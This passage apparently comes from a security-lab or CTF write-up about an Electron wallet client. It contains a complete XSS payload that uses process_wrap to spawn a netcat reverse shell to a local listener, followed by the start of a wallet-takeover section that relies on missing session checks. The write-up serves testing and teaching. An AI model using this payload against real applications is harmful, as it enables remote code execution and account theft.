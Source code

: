 So, now that we have triggered some JS, let´s try to pop a shell.

Note: In order to test this case, it is important that we prompt the Electron application without proxying the content with Burp as the shells will attempt to use the same connection settings that the main application, and Burp will drop down every connection which is not HTTP.

First, we set up our listener with `nc -lbp 80` in the same box we are running the application. Then, we will use the following payload in the message of a new transaction `<img src=x onerror="var Process = process.binding('process_wrap').Process;var proc = new Process();proc.onexit = function(a,b) {};var env = process.env;var env_ = [];for (var key in env) env_.push(key+'='+env[key]);proc.spawn({file:'/bin/sh',args:['sh','-c','nc -ne /bin/bash 127.0.0.1 80'],cwd:null,windowsVerbatimArguments:false,detached:false,envPairs:env_,stdio:[{type:'ignore'},{type:'ignore'},{type:'ignore'}]});">`. This will make the client set up a reverse shell that connects to our nc server listening in localhost.

![](./clientrce1.png)

![](./clientrce.png)

## Wallet takeover

After digging for a while the application and its code, it is now a security that there are no session mechanisms implementated within the communication of the client and the server. Also, the application uses local files to grab sensitive information, such as the public wallet id, but the "Password" required is not being sent to the server whatsoever so it was clear that we could log on to any wallet. For this, we would need another public walletId, which we can grab from the stdout of the 'docker-compose up' command (the first one is the one that the application uses by default):
